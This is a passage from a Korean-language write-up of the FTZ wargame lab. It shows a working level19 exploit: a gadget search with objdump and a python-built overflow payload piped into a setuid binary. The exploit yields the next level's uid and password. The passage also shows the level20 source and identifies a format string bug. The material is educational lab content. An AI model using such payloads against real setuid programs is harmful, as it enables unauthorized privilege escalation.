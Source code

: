 ```
[level19@ftz level19]$ objdump -d attackme | egrep 'pop|ret'
 80482d3:	c3                   	ret    
 8048342:	5e                   	pop    %esi
 804836e:	5b                   	pop    %ebx
 8048385:	c3                   	ret    
 80483eb:	5d                   	pop    %ebp
 80483ec:	c3                   	ret    
 80483f8:	5d                   	pop    %ebp
 80483f9:	c3                   	ret    
 8048426:	5d                   	pop    %ebp
 8048427:	c3                   	ret    
 8048438:	5d                   	pop    %ebp
 8048439:	c3                   	ret    
 804846a:	c3                   	ret    
 804849c:	58                   	pop    %eax
 804849d:	5b                   	pop    %ebx
 804849e:	5d                   	pop    %ebp
 804849f:	c3                   	ret    
 80484a8:	5d                   	pop    %ebp
 80484a9:	c3                   	ret    
 80484ba:	5b                   	pop    %ebx
 80484cd:	c3                   	ret    
[level19@ftz level19]$ (python -c 'print "A"*44+"\x20\x79\x0d\x42"+"\x9d\x84\x04\x08"+"\x1c\x0c\x00\x00"*2+"\xc0\xf2\x03\x42"+"\x90"*4+"\xa4\x7e\x12\x42"';cat)|./attackme
B?? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA y

ls 
attackme  hint	public_html  tmp
id
uid=3100(level20) gid=3099(level19) groups=3099(level19)
my-pass

Level20 Password is "we are just regular guys".
```

## [+] FTZ level20

### Analysis

```c++
#include <stdio.h>
main(int argc,char **argv)
{ char bleh[80];
  setreuid(3101,3101);
  fgets(bleh,79,stdin);
  printf(bleh);
}   
```

비교적 코드가 간단하다. 79바이트 만큼 입력을 받고 입력 받은 값을 출력한다.
제한된 입력 값을 받기 때문에 버퍼 오버플로우가 불가능하다. 단 출력하는 `printf` 함수에서 변수를 그대로 사용하고 있다. 
